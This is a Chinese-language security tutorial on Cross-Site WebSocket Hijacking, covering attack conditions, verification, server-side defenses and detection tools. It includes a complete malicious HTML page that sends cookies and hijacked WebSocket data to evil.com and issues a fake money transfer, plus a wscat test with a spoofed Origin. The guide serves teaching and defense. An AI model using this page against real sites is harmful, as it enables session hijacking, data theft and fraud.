


## 案例八：WebSocket跨站劫持（Cross-Site WebSocket Hijacking, CSWSH）

### 背景知识：WebSocket协议基础

WebSocket是HTML5引入的全双工通信协议，允许浏览器与服务器之间建立持久化的双向连接。与传统HTTP请求-响应模式不同，WebSocket连接建立后，双方可以随时主动发送数据，无需反复建立TCP连接，因此广泛应用于实时聊天、在线游戏、股票行情推送、协同编辑等场景。

#### WebSocket握手过程

WebSocket连接通过HTTP Upgrade机制建立。客户端发起一个特殊的HTTP请求，服务器返回101状态码表示协议切换：

```http
GET /chat HTTP/1.1
Host: example.com
Upgrade: websocket
Connection: Upgrade
Sec-WebSocket-Key: dGhlIHNhbXBsZSBub25jZQ==
Sec-WebSocket-Version: 13
Origin: https://example.com
Cookie: session=abc123

HTTP/1.1 101 Switching Protocols
Upgrade: websocket
Connection: Upgrade
Sec-WebSocket-Accept: s3pPLMBiTxaQ9kYGzzhZRbK+xOo=
```

关键要点：
- 握手阶段是一个标准的HTTP请求，浏览器会自动携带目标域的Cookie
- `Sec-WebSocket-Key` 是客户端生成的随机值，用于防止代理缓存
- `Sec-WebSocket-Accept` 是服务器根据Key计算的响应值，用于确认协议支持
- `Origin` 头标识发起连接的页面来源

#### WebSocket与HTTP的关键区别

| 特性 | HTTP | WebSocket |
|------|------|-----------|
| 连接模式 | 短连接，请求-响应 | 长连接，全双工 |
| 数据方向 | 单向（客户端发起） | 双向（任一方可发起） |
| 头部开销 | 每次请求携带完整头部 | 握手后仅2-14字节帧头 |
| 状态保持 | 无状态，依赖Cookie/Token | 连接本身就是有状态的 |
| CORS保护 | 受同源策略和CORS限制 | 不受CORS限制 |
| CSRF防护 | 有成熟的防御方案 | 防护机制不完善 |

最后一条是CSWSH攻击的根本原因——**WebSocket不受浏览器同源策略的CORS保护**，任何网页都可以对任意目标发起WebSocket连接。

---

### 攻击原理：CSWSH与传统CSRF的本质区别

CSRF（Cross-Site Request Forgery）利用的是浏览器自动附加Cookie的机制，让受害者在不知情的情况下发送伪造的HTTP请求。CSWSH本质上是CSRF在WebSocket协议上的变种，但攻击效果更加严重。

#### 为什么WebSocket容易被跨站攻击



CSRF攻击中，攻击者只能"伪造请求"但通常无法"读取响应"（受同源策略限制）。但在WebSocket场景下，一旦连接建立，攻击者可以通过该连接**既发送指令又接收响应**，实现完全的会话劫持。这就是CSWSH比传统CSRF更危险的核心原因。

#### 攻击成立的三个条件

1. **目标WebSocket服务端未验证Origin头**：服务器接受来自任意来源的连接请求
2. **认证依赖Cookie**：WebSocket握手时通过Cookie进行身份认证，而非独立的Token机制
3. **连接建立后无二次认证**：消息级别没有额外的身份校验

---

### 完整攻击流程

#### 第一阶段：侦察与准备

攻击者首先需要识别目标应用中使用WebSocket的端点和通信协议：

```javascript
// 通过浏览器开发者工具或抓包分析WebSocket端点
// 常见路径模式：
// ws://target.com/ws
// wss://target.com/api/websocket
// ws://target.com/socket.io/?EIO=3&transport=websocket
// wss://target.com/chat?token=xxx
```

侦察要点：
- 使用浏览器Network面板筛选WS请求，观察握手URL和消息格式
- 分析消息协议（JSON、Protocol Buffers、自定义二进制格式）
- 记录认证方式（Cookie、URL参数、握手阶段的自定义头）
- 识别消息类型和操作指令结构

#### 第二阶段：构造恶意页面

攻击者在自己的服务器上部署恶意HTML页面：

```html
<!DOCTYPE html>
<html>
<head>
    <title>赢取iPhone 16 Pro Max!</title>
</head>
<body>
    <h1>恭喜你中奖了！点击领取</h1>
    <script>
    // 攻击载荷：利用受害者的身份建立WebSocket连接
    const ws = new WebSocket('wss://target-chat.com/ws');

    ws.onopen = function() {
        console.log('[CSWSH] 连接已建立，开始劫持');

        // 步骤1：加入攻击者控制的聊天室
        ws.send(JSON.stringify({
            type: 'join_room',
            room_id: 'public-lobby'
        }));
    };

    ws.onmessage = function(event) {
        // 步骤2：捕获所有响应，窃取敏感数据
        const data = JSON.parse(event.data);
        console.log('[CSWSH] 窃取数据:', data);

        // 步骤3：将窃取的数据外传到攻击者服务器
        fetch('https://evil.com/collect', {
            method: 'POST',
            body: JSON.stringify({
                victim_cookie: document.cookie,
                ws_data: data
            })
        });
    };

    // 步骤4：发送恶意指令
    setTimeout(() => {
        ws.send(JSON.stringify({
            type: 'transfer',
            to: 'attacker-account',
            amount: 10000,
            currency: 'CNY'
        }));
    }, 2000);
    </script>
</body>
</html>
```

#### 第三阶段：诱导受害者

攻击者通过钓鱼邮件、社交媒体链接、广告投放等方式诱导受害者访问恶意页面。只要受害者在浏览器中登录了目标网站且Session有效，恶意页面的JavaScript就可以直接建立到目标的WebSocket连接，浏览器会自动在握手请求中携带目标域的Cookie。

#### 第四阶段：数据窃取与指令执行

攻击者通过WebSocket连接可以执行的操作包括：
- **读取实时消息**：窃取聊天记录、通知、系统推送等
- **冒充用户操作**：发送消息、修改设置、执行交易
- **横向移动**：通过已获取的信息进一步攻击其他账户
- **持久化**：保持WebSocket连接不断开，持续监控用户行为

---

### 真实场景分析

#### 场景一：在线聊天应用劫持

某企业内部IM系统使用WebSocket进行实时消息传输。攻击者构造CSWSH攻击后：
- 以受害者身份加入其所在的群聊
- 读取所有接收到的私密消息
- 以受害者名义发送钓鱼消息给同事
- 获取组织架构和内部沟通内容

#### 场景二：金融交易平台劫持

某在线交易平台通过WebSocket推送实时行情并接受交易指令：
- 攻击者窃取受害者的持仓信息和资金余额
- 以受害者身份执行反向交易（操纵市场获利）
- 修改受害者的交易策略和止损设置
- 取消未成交的挂单

#### 场景三：IoT设备控制劫持

智能家居控制平台使用WebSocket进行设备状态同步和指令下发：
- 攻击者获取受害者家中所有设备的实时状态
- 远程控制门锁、摄像头、安防系统
- 篡改自动化规则（如关闭报警、解除门禁）
- 造成物理安全威胁

---

### 漏洞验证实操

#### 使用浏览器控制台验证

```javascript
// 1. 在任意其他网站的控制台中执行（模拟攻击者的恶意页面）
// 如果连接成功建立，则说明存在CSWSH漏洞

const ws = new WebSocket('wss://target-app.com/ws');

ws.onopen = () => {
    console.log('VULNERABLE: WebSocket连接建立成功！');
    console.log('Origin:', window.location.origin);  // 显示的是攻击者站点的Origin
    ws.close();
};

ws.onerror = (err) => {
    console.log('PROTECTED: 连接被拒绝');
};

// 2. 检查服务器是否验证了Origin
// 在握手请求中查看Origin头是否被服务器校验
```

#### 使用Burp Suite测试

```text
1. 拦截正常的WebSocket握手请求
2. 修改Origin头为攻击者域名（如evil.com）
3. 转发请求，观察服务器是否仍然返回101
4. 如果连接建立成功，则确认存在CSWSH漏洞
5. 尝试通过该连接发送操作指令，验证权限校验
```

#### 使用wscat进行命令行测试

```bash
# 安装wscat
npm install -g wscat

# 测试连接（携带自定义Origin头）
wscat -c "wss://target-app.com/ws" \
  --header "Origin: https://evil.com" \
  --header "Cookie: session=stolen_token"

# 如果连接成功，说明服务器未验证Origin
# 发送测试消息验证响应
> {"type":"ping"}
< {"type":"pong","user":"victim_name"}
```

---

### 防御策略与实现

#### 防御层次总览



#### 防御一：验证Origin头

这是防御CSWSH最基本也最重要的措施。服务器在握手阶段必须检查HTTP请求中的Origin头，只接受来自可信来源的连接。

```python
# Python WebSocket服务端示例（使用websockets库）
import asyncio
import websockets

ALLOWED_ORIGINS = {
    'https://app.example.com',
    'https://admin.example.com',
}

async def handler(websocket):
    # 在连接建立前验证Origin
    origin = websocket.request.headers.get('Origin')

    if origin not in ALLOWED_ORIGINS:
        await websocket.close(1008, 'Origin not allowed')
        return

    # 连接建立，正常处理消息
    async for message in websocket:
        await process_message(websocket, message)

async def main():
    async with websockets.serve(handler, '0.0.0.0', 8765):
        await asyncio.Future()
```

```javascript
// Node.js + ws库示例
const WebSocket = require('ws');
const http = require('http');

const server = http.createServer();
const wss = new WebSocket.Server({ noServer: true });

const ALLOWED_ORIGINS = new Set([
    'https://app.example.com',
    'https://admin.example.com'
]);

server.on('upgrade', (request, socket, head) => {
    const origin = request.headers.origin;

    if (!ALLOWED_ORIGINS.has(origin)) {
        socket.write('HTTP/1.1 403 Forbidden\r\n\r\n');
        socket.destroy();
        return;
    }

    wss.handleUpgrade(request, socket, head, (ws) => {
        wss.emit('connection', ws, request);
    });
});

wss.on('connection', (ws, request) => {
    ws.on('message', (data) => {
        // 处理消息
    });
});

server.listen(8080);
```

**Origin验证的注意事项：**
- Origin头可以被非浏览器客户端伪造（如curl、脚本），因此Origin验证只能防御浏览器发起的CSWSH攻击
- 某些代理或负载均衡器可能会剥离Origin头，需要确保中间件不会干扰
- 对于需要接受多来源的场景，应维护严格的白名单而非使用通配符

#### 防御二：使用独立Token认证

不要依赖Cookie作为WebSocket的唯一认证手段，而应在握手阶段引入独立的Token机制：

```javascript
// 客户端：先通过HTTP请求获取WebSocket Token
async function getWebSocketToken() {
    const response = await fetch('/api/ws-token', {
        method: 'POST',
        credentials: 'include',
        headers: { 'Content-Type': 'application/json' }
    });
    const { token } = await response.json();
    return token;
}

// 使用Token建立WebSocket连接（通过URL参数或自定义头）
async function connectWebSocket() {
    const token = await getWebSocketToken();
    const ws = new WebSocket(`wss://app.com/ws?token=${token}`);

    ws.onopen = () => console.log('已认证连接');
    ws.onerror = (e) => console.error('连接失败', e);
}
```

```python
# 服务端：验证一次性Token
import secrets
import time

# Token存储（实际应用中应使用Redis等持久化存储）
pending_tokens = {}

def generate_ws_token(user_id):
    """为已认证用户生成一次性WebSocket Token"""
    token = secrets.token_urlsafe(32)
    pending_tokens[token] = {
        'user_id': user_id,
        'created_at': time.time(),
        'used': False
    }
    return token

def validate_ws_token(token):
    """验证WebSocket Token"""
    if token not in pending_tokens:
        return None

    entry = pending_tokens[token]

    # 检查是否已使用（一次性）
    if entry['used']:
        del pending_tokens[token]
        return None

    # 检查是否过期（30秒有效期）
    if time.time() - entry['created_at'] > 30:
        del pending_tokens[token]
        return None

    # 标记为已使用
    entry['used'] = True
    return entry['user_id']
```

这种方案的优势在于：Token是一次性的，攻击者无法提前获取（它不存储在Cookie中），且通过HTTPS传输可以防止中间人窃取。

#### 防御三：消息级别的权限校验

即使握手阶段通过了认证，每条消息仍然需要独立的权限校验：

```python
import json

# 消息处理中间件
async def process_message(websocket, raw_message, user_context):
    try:
        message = json.loads(raw_message)
    except json.JSONDecodeError:
        await websocket.send(json.dumps({
            'error': 'Invalid JSON format'
        }))
        return

    # 1. 验证消息类型是否在允许列表中
    allowed_types = {'chat', 'ping', 'subscribe'}
    if message.get('type') not in allowed_types:
        await websocket.send(json.dumps({
            'error': f'Unknown message type: {message.get("type")}'
        }))
        return

    # 2. 验证操作权限
    action = message.get('type')
    if action == 'admin_broadcast' and not user_context.get('is_admin'):
        await websocket.send(json.dumps({
            'error': 'Insufficient permissions'
        }))
        return

    # 3. 验证业务逻辑权限（如只能访问自己的数据）
    if action == 'subscribe':
        channel = message.get('channel')
        if not user_can_access_channel(user_context['user_id'], channel):
            await websocket.send(json.dumps({
                'error': 'Access denied to channel'
            }))
            return

    # 4. 限流：防止消息洪泛攻击
    if not rate_limiter.allow(user_context['user_id']):
        await websocket.send(json.dumps({
            'error': 'Rate limit exceeded'
        }))
        return

    # 通过所有校验，执行操作
    await handle_action(websocket, message, user_context)
```

#### 防御四：连接管理与限速

```python
import asyncio
from collections import defaultdict
from datetime import datetime, timedelta

class ConnectionManager:
    def __init__(self):
        self.connections = defaultdict(list)  # user_id -> [websocket, ...]
        self.max_connections_per_user = 5
        self.connection_rate = defaultdict(list)  # ip -> [timestamp, ...]
        self.max_connect_per_minute = 10

    def check_rate_limit(self, ip):
        """限制连接建立频率"""
        now = datetime.now()
        cutoff = now - timedelta(minutes=1)
        self.connection_rate[ip] = [
            t for t in self.connection_rate[ip] if t > cutoff
        ]
        if len(self.connection_rate[ip]) >= self.max_connect_per_minute:
            return False
        self.connection_rate[ip].append(now)
        return True

    def check_connection_limit(self, user_id):
        """限制每用户的并发连接数"""
        return len(self.connections[user_id]) < self.max_connections_per_user

    def add_connection(self, user_id, websocket):
        self.connections[user_id].append(websocket)

    def remove_connection(self, user_id, websocket):
        if websocket in self.connections[user_id]:
            self.connections[user_id].remove(websocket)

    async def disconnect_all_for_user(self, user_id):
        """用户登出时断开所有连接"""
        for ws in self.connections[user_id]:
            await ws.close(1000, 'Session ended')
        self.connections[user_id].clear()
```

---

### 常见防御误区

#### 误区一：依赖HTTPS就安全了

HTTPS（WSS）只保证传输层加密，防止中间人窃听和篡改。但CSWSH是应用层攻击，攻击者的恶意页面通过受害者浏览器发起WSS连接，整个过程都是合法的加密通信，HTTPS无法防护。

#### 误区二：检查了Sec-WebSocket-Origin就够了

`Sec-WebSocket-Origin`不是标准头，浏览器在握手阶段发送的是`Origin`头。且RFC 6455明确规定：服务器**不应**假设Origin头一定存在或一定正确，它只是参考信息。Origin验证是必要的但不充分的，必须结合Token认证。

#### 误区三：WebSocket没有CORS所以无法防御

虽然WebSocket不受CORS机制约束，但服务器可以在握手阶段自行实现等效的来源检查。手动验证Origin头、使用独立Token、消息级别授权等措施组合起来，可以构建比CORS更强的防御体系。

#### 误区四：所有消息类型都用同一个Token

如果认证Token在连接建立后不再更新，长期存活的WebSocket连接一旦被劫持，攻击者可以在整个连接生命周期内持续使用。应该对敏感操作（如转账、删除、修改密码）要求额外的确认机制（如短时效子Token或二次认证）。

---

### 自动化检测与工具

#### Nuclei模板检测

```yaml
id: websocket-cswh
info:
  name: WebSocket Cross-Site Hijacking Detection
  author: security-researcher
  severity: high
  description: Detects WebSocket endpoints vulnerable to CSWSH

requests:
  - pre-condition:
      - type: dsl
        dsl:
          - 'method == "GET"'

    payloads:
      origin:
        - "https://evil.com"
        - "https://attacker-site.com"
        - "null"

    attack: pitchfork

    matchers-condition: and
    matchers:
      - type: word
        part: response
        words:
          - "101 Switching Protocols"

      - type: status
        status:
          - 101
```

#### 自定义Python检测脚本

```python
import asyncio
import websockets
import json

async def test_cswh(ws_url, test_origins):
    """测试WebSocket端点是否存在CSWSH漏洞"""
    results = []

    for origin in test_origins:
        try:
            extra_headers = {'Origin': origin}
            async with websockets.connect(
                ws_url,
                additional_headers=extra_headers,
                open_timeout=5
            ) as ws:
                results.append({
                    'origin': origin,
                    'status': 'VULNERABLE',
                    'detail': f'连接成功建立（Origin: {origin}）'
                })
                await ws.close()
        except (websockets.exceptions.InvalidStatusCode,
                ConnectionRefusedError,
                asyncio.TimeoutError) as e:
            results.append({
                'origin': origin,
                'status': 'PROTECTED',
                'detail': f'连接被拒绝: {type(e).__name__}'
            })

    return results

# 执行检测
async def main():
    target = 'wss://target-app.com/ws'
    origins = [
        'https://evil.com',
        'https://attacker.example.org',
        'null',
        'https://target-app.com',  # 正常来源（对照组）
    ]

    print(f'[*] 目标: {target}')
    print(f'[*] 测试 {len(origins)} 个Origin...\n')

    results = await test_cswh(target, origins)

    for r in results:
        icon = '[!]' if r['status'] == 'VULNERABLE' else '[+]'
        print(f"{icon} {r['origin']} -> {r['status']}: {r['detail']}")

asyncio.run(main())
```

---

### 防御检查清单

在代码审查或安全评估中，使用以下清单逐项验证WebSocket安全性：

| 检查项 | 要求 | 风险等级 |
|--------|------|----------|
| Origin验证 | 服务器在握手阶段校验Origin头，仅接受白名单来源 | 高 |
| 独立Token认证 | 不仅依赖Cookie，使用一次性Token进行握手认证 | 高 |
| WSS加密 | 生产环境强制使用WSS（WebSocket over TLS） | 高 |
| 消息权限校验 | 每条消息独立校验操作权限 | 高 |
| 连接速率限制 | 限制每IP/每用户的连接建立频率 | 中 |
| 并发连接限制 | 限制每用户的最大并发连接数 | 中 |
| 连接超时 | 空闲连接自动断开 | 中 |
| 输入消毒 | 所有消息内容经过验证和消毒 | 中 |
| 日志审计 | 记录连接建立、断开和关键操作 | 低 |
| 消息大小限制 | 限制单条消息的最大字节数 | 低 |

---

### 总结

WebSocket跨站劫持（CSWSH）是WebSocket安全中最常见也最危险的漏洞类型。它利用了WebSocket不受浏览器CORS保护的特性，结合Cookie自动携带机制，使攻击者能够以受害者身份建立双向通信连接，既发送恶意指令又窃取实时数据。

防御的核心原则是**纵深防御**：在握手阶段验证Origin并使用独立Token认证，在连接阶段实施速率限制和并发控制，在消息阶段进行逐条权限校验。仅依赖单一防御措施（如只检查Origin或只用HTTPS）是不够的，需要多层防御相互配合才能有效抵御CSWSH攻击。
